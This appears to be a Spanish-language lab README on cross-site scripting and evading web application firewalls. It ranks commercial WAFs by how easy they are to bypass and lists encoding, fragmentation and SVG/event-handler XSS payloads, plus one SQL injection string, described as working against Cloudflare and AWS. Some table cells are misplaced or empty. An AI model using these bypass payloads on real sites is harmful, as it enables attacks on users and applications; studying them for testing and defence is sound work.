

# 	Ataque XSS con evasión de WAFs

> [!IMPORTANT]
> Laboratorio ataque XSS realizado en la distro Kali Linux 2023.4, gracias a la instalación de repositorios y otras herramientas. Un <b>ataque XSS</b> (<b>Cross-Site Scripting</b>) aprovecha un tipo de vulnerabilidad de seguridad en aplicaciones y sistemas web que permite a un atacante inyectar <b>scripts</b> maliciosos (JavaScript) en páginas determinadas muy visitadas por los usuarios ejecutando directamente el código en el propio navegador del usuario final víctima sin su consentimiento.

> Entre los tipos más reconocidos de XSS, podemos encontrar:
- <b>XSS reflejado (Reflected XSS)</b>: El script se envía a través de una solicitud (enlace o formulario) y se refleja directamente en la respuesta de la página.
Ejemplo: https://ejemplo.com/?q=
- <b>XSS almacenado (Stored XSS)</b>: El código malicioso se guarda permanentemente en la base de datos de la aplicación y se muestra a los usuarios cada vez que cargan una página. Este tipo de códigos los podemos insertar en áreas muy determinadas como comentarios, foros, perfiles de usuario, etc.
- <b>XSS basado en DOM (DOM-based XSS)</b>: este ataque se produce cuando el navegador procesa contenido dinámico mediante JavaScript sin validación adecuada, manipulando directamente el DOM.

> Hecha la ley, hecha la trampa… Como sabemos desde hace tiempo, los sitios web están muy protegidos contra ataques de tipo inyección de código gracias a entornos e infraestructuras que proporcionan empresas como Cloudflare, Imperva y muchos más. La cuestión es que, como es común, un atacante va a <b>APROVECHAR NUESTROS FALLOS PARA ENTRAR EN EL SISTEMA, DONDE TAMBIÉN INCLUIMOS NUESTRA PEREZA POR PROGRAMAR DE FORMA SEGURA</b>.
> Técnicas tan sencillas como revisar lo que introduce el usuario, sanitizar código y muchas cosas más no se realizan por cientos de motivos diferentes (aunque principalmente suele ser el económico). Por tanto, y como podremos imaginar, existe múltiples técnicas utilizadas para evadir los cortafuegos de aplicaciones web (WAF) durante ataques de Cross-Site Scripting (XSS). Veamos qué significado tiene cada cosa y cómo podemos trabajar para mitigar este tipo de inyecciones.
<b>WAF = Web Application Firewall → Cortafuegos de aplicaciones web</b>

> Un <b>WAF</b> se pone entre el usuario y el servidor (o API) para inspeccionar el tráfico HTTP/HTTPS y poder detectar y/bloquear bloquear ataques dirigidos contra aplicaciones web. Pero… ¿De qué nos protege realmente un WAF? Pues puede llegar a defender nuestra infraestructura de ataques tipo inyecciones SQL (SQLi), Cross-Site Scripting (XSS), fuerza bruta, file inclusion (RFI/LFI), Cross-Site Request Forgery (CSRF), exposición de datos sensibles y comandos no autorizados (RCE)

> La misión del WAF es proteger las aplicaciones que un firewall tradicional no puede proteger, porque los firewalls de red operan en niveles más bajos (IP/TCP). Los WAFs se clasifican por su forma de instalación y operación. Veamos los modelos que existen:

| **TIPO DE WAF**        | **EXPLICACIÓN**                                                                                                                                                                                                                                     | **VENTAJAS Y DESVENTAJAS**                                                                                                                                                 | **EJEMPLOS**                                 |
|------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------|
| **BASADO EN RED**  | - Se instala físicamente en la red  - Súper rápido y potente   - Instalado en el perímetro de la red (hardware o máquina virtual)   - Protege todo el tráfico (salida)   - Ideal para grandes empresas         | ✅ **Ventaja:** Bajísima latencia, control total   ❌ **Desventaja:** Costosos y más difícil de escalar                                                                  | F5 BIG-IP ASM, Imperva                       |
| **BASADO EN NUBE** | - Servicio online, no tienes que instalar nada, solo configurar   - No se instala nada físico   - Se usan servicios como *Cloudflare, AWS WAF, Akamai, Sucuri*   - Funciona como proxy inverso (redirecciona el DNS hacia ellos)          | ✅ **Ventaja:** Fácil de desplegar/mantener, escala automáticamente   ❌ **Desventaja:** Dependencia de terceros y configuración de políticas puede ser limitada         | Cloudflare WAF, AWS WAF, Akamai              |
| **BASADO EN HOST** | - Se instala en el mismo servidor donde corre la aplicación   - Instala directamente un software en el servidor (app web)   - Protege solo esa máquina específica                                                                         | ✅ **Ventaja:** Mucho control y personalización de reglas   ❌ **Desventaja:** Consume recursos del propio servidor (CPU/RAM)                                            | ModSecurity, NAXSI (para Nginx)              |

> Estos WAF suelen utilizar para la detección sistemas como el basado en firmas, el cual reconoce patrones de ataques conocidos, el basado en comportamiento, que detecta tráfico anómalo (por ejemplo, tráfico que rompe patrones normales) o también el basado en aprendizaje automático (los más modernos), que aprenden cómo es el tráfico normal de una aplicación.

> En realidad, ¿dónde tenemos que instalar el WAF? Veamos un pequeño esquema:

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/xss1.png">
  <source media="(prefers-color-scheme: light)" srcset="images/xss1.png">
  
</picture>

> Ahora nos hacemos esta pregunta: <b>¿Qué hace un WAF moderno para evitar ser evadido?</b> Pues, la respuesta es fácil:
- Análisis de comportamiento: aprende cómo se ve un tráfico normal y detecta desvíos
- Normalización de solicitudes: antes de analizarlas, decodifica toda la entrada
- Machine learning: algunos WAFs como AWS WAF y Cloudflare usan IA para detectar nuevos patrones

> En realidad, son muchos los parámetros que afectan a la facilidad de evasión:
- 🔥 Configuración: Un WAF mal configurado es fácil de saltar, por muy caro que sea
- 🔥 Actualización: Si las firmas de ataques no se actualizan, los nuevos exploits pasan
- 🔥 Uso de Machine Learning: Los WAFs que "aprenden" el tráfico normal son mucho más difíciles de evadir
- 🔥 Normalización previa: Si el WAF decodifica correctamente el tráfico antes de filtrarlo, es muy difícil atacarlo

# ⚠️ ¡¡Con reglas personalizadas, la evasión es más difícil!! ⚠️

> Veamos ahora una lista actualizada de WAFs, ordenados por qué tan fácil o difícil es evadirlos, siempre basándonos en reportes de pentesting real, CTFs y Red Teams:

| **WAF**                    | **DIFICULTAD DE EVASIÓN**       | **EXPLICACIÓN**                                                                                   |
|----------------------------|----------------------------------|----------------------------------------------------------------------------------------------------|
| **INCAPSULA (IMPERVA)**    | 🟠 Moderadamente - Difícil       | Tiene protección buena, pero no perfecta                                                          |
| **AWS WAF (AMAZON)**       | 🟢 Bastante fácil (por defecto)  | Si no está configurado con reglas avanzadas, es más fácil evadirlo                                |
| **CLOUDFLARE WAF**         | 🔴 Muy difícil                   | Su sistema de *Machine Learning* y normalización es de los mejores                                |
| **AKAMAI KONA SITE DEFENDER** | 🔴 Muy difícil                   | Sistema de los más potentes, muy difícil de evadir sin tráfico anómalo claro                      |
| **F5 BIG-IP ASM**          | 🟡 Depende de la configuración   | Muy fuerte si está bien ajustado                                                                  |
| **MODSECURITY (OPEN-SOURCE)** | 🟢 Fácil - Moderado             | Depende totalmente de las reglas aplicadas (muy flexible)                                         |
| **BARRACUDA WAF**          | 🟡 Medio                         | Protección relativamente buena, pero con algunas firmas antiguas                                 |
| **DENYALL WAF**            | 🟢 Bastante fácil                | Sus firmas son más antiguas y actualizaciones lentas                                              |
| **FORTINET FORTIWEB**      | 🟡 Medio - Difícil               | Si está actualizado, puede ser un buen sistema WAF                                                |
| **RADWARE APPWALL**        | 🟡 Medio                         | Bastante sólido en *DDoS*, algo más flojo en XSS avanzado                                         |

# :desktop_computer:	Cómo preparar payloads para evadir WAF
> La clave es modificar e implementar un buen ataque a un WAF, realmente es modificar todo para no lo detecten las reglas normales del WAF, pero el navegador o servidor sigan interpretándolo correctamente. Veamos las principales técnicas que se pueden utilizar para crear un payload de evasión:

| **TÉCNICA DE EVASIÓN**             | **FUNCIONAMIENTO**                                                     | **UN EJEMPLO PRÁCTICO**                                      |
|-----------------------------------|------------------------------------------------------------------------|--------------------------------------------------------------|
| **OFUSCACIÓN**                    | Alterar visualmente el ataque                                          | `<svg/onload=alert(1)>` → `<svg/onload=confirm(1)>`          |
| **CODIFICACIÓN DOBLE O MÚLTIPLE** | Codificar varias veces la carga útil                                   | `%253Cscript%253Ealert(1)%253C/script%253E`                  |
| **FRAGMENTACIÓN**                 | Partir el `payload` en trozos                                          | `<scr` + `ipt>alert(1)</scr` + `ipt>`                        |
| **POLIMORFISMO**                  | Cambiar la forma del `payload` sin cambiar su efecto                   | `jaVaScRipt:alert(1)`                                        |
| **USO DE CARACTERES ESPECIALES**  | Insertar entidades HTML o hexadecimales raras                          | `&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;`               |
| **TIMING / TRÁFICO LENTO**        | Mandar el `payload` en partes (*slowloris-like*)                       | Avanzado, para romper inspecciones en tiempo real            |
| **PAYLOADS DE COMPORTAMIENTO**    | Hacerlo parecer tráfico válido de navegador/bot                        | `User-Agent` igual a `"GoogleBot"`                           |

> Ahora bien, necesitamos prepararnos antes de atacar y evadir un WAF… Lo más común es seguir los pasos citados a continuación:

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/xss2.png">
  <source media="(prefers-color-scheme: light)" srcset="images/xss2.png">
  
</picture>

### Ejemplificando: totalmente real :bomb:	

> Este es un ejemplo totalmente real de bypass (evasión) de un WAF básico:

| **``** | **Variantes de evasión**                                                                                          |
|-------------------------------|---------------------------------------------------------------------------------------------------------------------|
|                               | `&#x3C;svg/onload=prompt(1)&#x3E;`                                                                                  |
|                               | `<svg><set onbegin=alert(1) attributeName=x></set></svg>`                                                           |

> Obtendríamos el mismo efecto, pero de formas totalmente distintas, es decir, tendríamos un bypass exitoso… Veamos algunos payloads totalmente funcionales para las plataformas más conocidas de la nube:

| **TIPO DE WAF**       | **¿INVENCIBLE?**                                                                                                         | **TÉCNICAS ÚTILES**                                                                                                                       | **EJEMPLOS**                                                                                                                                                                                                                           |
|-----------------------|--------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **CLOUDFLARE**        | Normaliza, decodifica y usa ML, pero no es invencible.                                                                   | Se puede usar SVG y eventos raros, codificar en hexadecimal/Unicode o utilizar polimorfismo de atributos                                 | `<svg><desc onload=alert(1)>x</desc></svg>` `<svg/onload=confirm(1)>` `<details/open/ontoggle=alert(1)>` `<math><mi xlink:href="javascript:alert(1)"></mi></math>`                                                               |
| 🧠 Cloudflare suele filtrar `onload`, pero no siempre bloquea `ontoggle`, `onanimationstart`, `xlink:href`, etc. 🧠 |                                                                                                          |                                                                                                                                           |                                                                                                                                                                                                                                        |
| **AWS**               | AWS WAF por defecto es débil si no está bien configurado, se puede evadir con codificación simple o fragmentación.       | Se puede utilizar la doble codificación, fractura de cadenas (*split injection*) o espacios alternativos (`/**/`, `%20`, `%0d%0a`)       | `%27/**/OR/**/1=1--%20` `<scr` `<input autofocus onfocus=alert(1)>` `<svg><set onbegin=confirm(`${document.domain}`) attributeName=x></set></svg>` `&#x3C;svg/onload=confirm(1)&#x3E;` `<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>` |
| 🧠 Imperva suele filtrar cosas como `<script>` pero a veces no detecta bien splits en JavaScript o eventos menos comunes como `onpointerover`. 🧠 |                                                                                                          |                                                                                                                                           |                                                                                                                                                                                                                                        |
